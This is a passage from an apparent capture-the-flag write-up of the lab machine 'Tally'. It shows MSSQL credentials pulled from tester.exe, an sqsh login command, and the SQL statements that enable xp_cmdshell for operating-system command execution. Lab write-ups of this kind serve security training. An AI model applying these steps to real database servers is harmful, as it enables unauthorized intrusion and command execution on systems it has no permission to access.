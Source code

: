 After some manual enumeration, we come a across a file called `tester.exe`, running strings on the file reveals the credentials for the MSSQL Server we saw in the nmap scan.

![](/images/tally/sql-1.png)

Creds - `sa:GWE3V65#6KFH93@4GWTG2G`

## Getting Command Execution using the MSSQL Server and 'xp_cmdshell'

Now that we have creds for the SQL Server we can login using `sqsh`, a tool built into Kali.

{% highlight bash %}
sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
{% endhighlight %}

![](/images/tally/sql-2.png)

### Enabling xp_cmdshell

Now that a connection has been established we can enable the `xp_cmdshell` function, so that we can execute system commands as the user who is running the database server. The following commands are used to enable the function.

{% highlight sql %}
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
{% endhighlight %}
